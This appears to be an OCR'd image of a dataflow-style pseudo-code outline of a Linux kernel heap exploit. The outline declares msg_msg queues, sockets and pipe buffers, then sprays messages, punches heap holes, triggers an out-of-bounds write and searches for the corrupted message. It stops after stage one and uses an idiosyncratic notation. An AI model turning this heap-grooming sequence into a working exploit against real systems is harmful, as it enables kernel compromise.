  [data1] int s;
 [data2] int fd;
 [data3] int ss[NUM_SOCKETS][2] empty : array { top };
 [data4] int pipefd[NUM_PIPEFDS][2];
 [data5] int msqid[NUM_MSQIDS] empty : array { top };

 [data6] char secondary_buf[SECONDARY_SIZE - SKB_SHARED_INFO_SIZE];

 [data7] struct msg_msg *msg;
 [data8] struct pipe_buf_operations *ops;
 [data9] struct pipe_buffer *buf;

 [data10] uint64_t kheap_addr = 0
 
 [data11] struct msg_primary :: empty : heap { top };
 [data12] struct msg_secondary :: empty : heap { top };
 [data13] struct msg_fake;

 [data14] struct data;
 [data15] uint64_t kbase_addr = 0;

 ======================================================
 [flow] data1.0 ---= socket(conts) ---> data1.1
 
 [flow] data3.0 * conts --- socketpair ---> [data3.1] non-empty : array { top 1,...,4 }
 [flow] data5.0 ---= msgget---> [data5.1] non-empty : array { top 1,...,4096 }

##############################################
 #### Stage 1 – Memory Corruption #######
 #############################################
 #### Spraying Primary Messages...####
 [flow] data11.0 * "0" --- memset ---> [data11.1] non-empty : heap { top "0"{4096} }
     *(int *)&[data11.1].mtext[0] = conts;
     *(int *)&[data11.1].mtext[4] = 1,…,4096;

 #### Spraying Secondary Messages...####
 [flow] data12.0 * "0" --- memset ---> [data12.1] non-empty : heap { top "0"{4096} }
     *(int *)&[data12.1].mtext[0] = conts;
     *(int *)&[data12.1].mtext[4] = 1,…,4096;

 #### Creating Holes in the Primary Message...####
 [flow] data5.1 * &data11.1 --- read_msg --->  [&data11.2] non-empty : heap {top, data11.2.1024, data11.2.2048 ,data11.2.3072}

########################
### Triggering the Out-Of-Bond Write does not lead to any data evolution but writes to the Heap ##
########################

### Searching for Corrupted Primary Message ###
[flow] data5.1 * &data12.1 --- peek_msg ---> [&data12.2] vulnerable : heap { top "corrupted data"{4096} }